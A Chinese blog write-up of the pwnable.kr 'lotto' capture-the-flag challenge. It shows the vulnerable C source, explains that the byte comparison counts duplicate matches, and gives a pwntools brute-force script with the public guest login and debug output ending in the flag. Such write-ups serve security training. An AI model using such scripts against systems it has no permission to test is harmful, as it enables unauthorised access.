


<!--yml
category: 未分类
date: 2022-04-26 14:20:19
-->

# PWN lotto [pwnable.kr]CTF writeup题解系列10_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103798476](https://blog.csdn.net/fastergohome/article/details/103798476)

**目录**

[0x01题目](#0x01%E9%A2%98%E7%9B%AE)

[0x02解题思路](#0x02%E8%A7%A3%E9%A2%98%E6%80%9D%E8%B7%AF)

[0x03题解](#0x03%E9%A2%98%E8%A7%A3)

* * *

# 0x01题目




# 0x02解题思路

下载文件，检查一下情况

```
root@mypwn:/ctf/work/pwnable.kr# ssh lotto@pwnable.kr -p2222
lotto@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Wed Jan  1 09:01:04 2020 from 64.43.135.184
lotto@prowl:~$ ls -la
total 44
drwxr-x---   5 root      lotto  4096 Oct 23  2016 .
drwxr-xr-x 116 root      root   4096 Nov 12 21:34 ..
d---------   2 root      root   4096 Feb 18  2015 .bash_history
-r--r-----   1 lotto_pwn root     55 Feb 18  2015 flag
dr-xr-xr-x   2 root      root   4096 Feb 18  2015 .irssi
-r-sr-x---   1 lotto_pwn lotto 13081 Feb 18  2015 lotto
-r--r--r--   1 root      root   1713 Feb 18  2015 lotto.c
drwxr-xr-x   2 root      root   4096 Oct 23  2016 .pwntools-cache
```

打开c语言代码

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){

	int i;
	printf("Submit your 6 lotto bytes : ");
	fflush(stdout);

	int r;
	r = read(0, submit, 6);

	printf("Lotto Start!\n");
	//sleep(1);

	// generate lotto numbers
	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1){
		printf("error. tell admin\n");
		exit(-1);
	}
	unsigned char lotto[6];
	if(read(fd, lotto, 6) != 6){
		printf("error2\. tell admin\n");
		exit(-1);
	}
	for(i=0; i<6; i++){
		lotto[i] = (lotto[i] % 45) + 1;		// 1 ~ 45
	}
	close(fd);

	// calculate lotto score
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}

	// win!
	if(match == 6){
		system("/bin/cat flag");
	}
	else{
		printf("bad luck...\n");
	}

}

void help(){
	printf("- nLotto Rule -\n");
	printf("nlotto is consisted with 6 random natural numbers less than 46\n");
	printf("your goal is to match lotto numbers as many as you can\n");
	printf("if you win lottery for *1st place*, you will get reward\n");
	printf("for more details, follow the link below\n");
	printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
	printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

	// menu
	unsigned int menu;

	while(1){

		printf("- Select Menu -\n");
		printf("1\. Play Lotto\n");
		printf("2\. Help\n");
		printf("3\. Exit\n");

		scanf("%d", &menu);

		switch(menu){
			case 1:
				play();
				break;
			case 2:
				help();
				break;
			case 3:
				printf("bye\n");
				return 0;
			default:
				printf("invalid menu\n");
				break;
		}
	}
	return 0;
}
```

有点懵逼，直接用的随机数产生器是 /dev/urandom，不存在伪随机数种子的情况。

看了一会题目之后，直接gdb跟进去看看吧。

跟了一会，发现怎么一直在循环



这个是对比的随机数，不太对，正常对比，只要一次对比操作就行了。

刚刚没有仔细看代码

```
 for ( j = 0; j <= 5; ++j )
  {
    for ( k = 0; k <= 5; ++k )
    {
      if ( buf[j] == submit[k] )
        ++v3;
    }
  }
  if ( v3 == 6 )
    system("/bin/cat flag");
  else
    puts("bad luck...");
```

 竟然每个字节和每个字节做对比，然后叠加次数，我晕倒！

那就简单了，直接选择一个中间数，比如输入六个0x12，0x121212121212，然后就反复执行，等待随机数中有一个出现0x12就好了

# 0x03题解

直接给出python爆破脚本

```
#coding:utf8
#!/usr/bin/env python

from pwn import *

context.log_level = 'debug'
process_name = './lotto'
# p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
s = ssh(host='pwnable.kr',user='lotto',password='guest',port=2222)
p = s.process(executable='/home/lotto/lotto')
# elf = ELF(process_name)

def send_payload(n):
	p.sendlineafter('3\. Exit\n', str(1))
	p.sendlineafter('Submit your 6 lotto bytes : ', str('\x12'*6))

for x in xrange(1,100):
	send_payload(x)
	p.recvline()
	result = p.recvline()
	if result == 'bad luck...\n':
		log.info('failed\n')
	else:
		log.info('succeed\n')
		break;

p.interactive() 
```

执行结果如下：

```
root@mypwn:/ctf/work/pwnable.kr# python lotto.py 
[+] Connecting to pwnable.kr on port 2222: Done
[*] input2@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[DEBUG] Created execve script:
    #!/usr/bin/env python2
    import os, sys, ctypes, resource, platform, stat
    from collections import OrderedDict
    exe   = '/home/lotto/lotto'
    argv  = []
    env   = None

    os.chdir('.')

    if env is not None:
        os.environ.clear()
        os.environ.update(env)
    else:
        env = os.environ

    def is_exe(path):
        return os.path.isfile(path) and os.access(path, os.X_OK)

    PATH = os.environ.get('PATH','').split(os.pathsep)

    if os.path.sep not in exe and not is_exe(exe):
        for path in PATH:
            test_path = os.path.join(path, exe)
            if is_exe(test_path):
                exe = test_path
                break

    if not is_exe(exe):
        sys.stderr.write('3\n')
        sys.stderr.write("{} is not executable or does not exist in $PATH: {}".format(exe,PATH))
        sys.exit(-1)

    if not True:
        PR_SET_NO_NEW_PRIVS = 38
        result = ctypes.CDLL('libc.so.6').prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)

        if result != 0:
            sys.stdout.write('3\n')
            sys.stdout.write("Could not disable setuid: prctl(PR_SET_NO_NEW_PRIVS) failed")
            sys.exit(-1)

    try:
        PR_SET_PTRACER = 0x59616d61
        PR_SET_PTRACER_ANY = -1
        ctypes.CDLL('libc.so.6').prctl(PR_SET_PTRACER, PR_SET_PTRACER_ANY, 0, 0, 0)
    except Exception:
        pass

    # Determine what UID the process will execute as
    # This is used for locating apport core dumps
    suid = os.getuid()
    sgid = os.getgid()
    st = os.stat(exe)
    if True:
        if (st.st_mode & stat.S_ISUID):
            suid = st.st_uid
        if (st.st_mode & stat.S_ISGID):
            sgid = st.st_gid

    if sys.argv[-1] == 'check':
        sys.stdout.write("1\n")
        sys.stdout.write(str(os.getpid()) + "\n")
        sys.stdout.write(str(os.getuid()) + "\n")
        sys.stdout.write(str(os.getgid()) + "\n")
        sys.stdout.write(str(suid) + "\n")
        sys.stdout.write(str(sgid) + "\n")
        sys.stdout.write(os.path.realpath(exe) + '\x00')
        sys.stdout.flush()

    for fd, newfd in {0: 0, 1: 1, 2:2}.items():
        if newfd is None:
            close(fd)
        elif isinstance(newfd, str):
            os.close(fd)
            os.open(newfd, os.O_RDONLY if fd == 0 else (os.O_RDWR|os.O_CREAT))
        elif isinstance(newfd, int) and newfd != fd:
            os.dup2(fd, newfd)

    if not True:
        if platform.system().lower() == 'linux' and True is not True:
            ADDR_NO_RANDOMIZE = 0x0040000
            ctypes.CDLL('libc.so.6').personality(ADDR_NO_RANDOMIZE)

        resource.setrlimit(resource.RLIMIT_STACK, (-1, -1))

    # Attempt to dump ALL core file regions
    try:
        with open('/proc/self/coredump_filter', 'w') as core_filter:
            core_filter.write('0x3f\n')
    except Exception:
        pass

    # Assume that the user would prefer to have core dumps.
    try:
        resource.setrlimit(resource.RLIMIT_CORE, (-1, -1))
    except Exception:
        pass

    def func(): pass
    apply(func, [])

    os.execve(exe, argv, env)
[+] Starting remote process execve('/home/lotto/lotto', [], os.environ) on pwnable.kr: pid 371061
[DEBUG] Received 0x2f bytes:
    00000000  31 0a 33 37  31 30 36 31  0a 31 30 32  33 0a 31 30  │1·37│1061│·102│3·10│
    00000010  32 33 0a 31  30 32 34 0a  31 30 32 33  0a 2f 68 6f  │23·1│024·│1023│·/ho│
    00000020  6d 65 2f 6c  6f 74 74 6f  2f 6c 6f 74  74 6f 00     │me/l│otto│/lot│to·│
    0000002f
[DEBUG] Received 0x2e bytes:
    '- Select Menu -\n'
    '1\. Play Lotto\n'
    '2\. Help\n'
    '3\. Exit\n'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x1c bytes:
    'Submit your 6 lotto bytes : '
[DEBUG] Sent 0x7 bytes:
    00000000  12 12 12 12  12 12 0a                               │····│···│
    00000007
[DEBUG] Received 0x47 bytes:
    'Lotto Start!\n'
    'bad luck...\n'
    '- Select Menu -\n'
    '1\. Play Lotto\n'
    '2\. Help\n'
    '3\. Exit\n'
[*] failed
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x1c bytes:
    'Submit your 6 lotto bytes : '
[DEBUG] Sent 0x7 bytes:
    00000000  12 12 12 12  12 12 0a                               │····│···│
    00000007
[DEBUG] Received 0x47 bytes:
    'Lotto Start!\n'
    'bad luck...\n'
    '- Select Menu -\n'
    '1\. Play Lotto\n'
    '2\. Help\n'
    '3\. Exit\n'
[*] failed
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x1c bytes:
    'Submit your 6 lotto bytes : '
[DEBUG] Sent 0x7 bytes:
    00000000  12 12 12 12  12 12 0a                               │····│···│
    00000007
[DEBUG] Received 0x47 bytes:
    'Lotto Start!\n'
    'bad luck...\n'
    '- Select Menu -\n'
    '1\. Play Lotto\n'
    '2\. Help\n'
    '3\. Exit\n'
[*] failed
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x1c bytes:
    'Submit your 6 lotto bytes : '
[DEBUG] Sent 0x7 bytes:
    00000000  12 12 12 12  12 12 0a                               │····│···│
    00000007
[DEBUG] Received 0x72 bytes:
    'Lotto Start!\n'
    'sorry mom... I FORGOT to check duplicate numbers... :(\n'
    '- Select Menu -\n'
    '1\. Play Lotto\n'
    '2\. Help\n'
    '3\. Exit\n'
[*] succeed
[*] Switching to interactive mode
- Select Menu -
1\. Play Lotto
2\. Help
3\. Exit
$ 
[*] Interrupted
root@mypwn:/ctf/work/pwnable.kr# 
```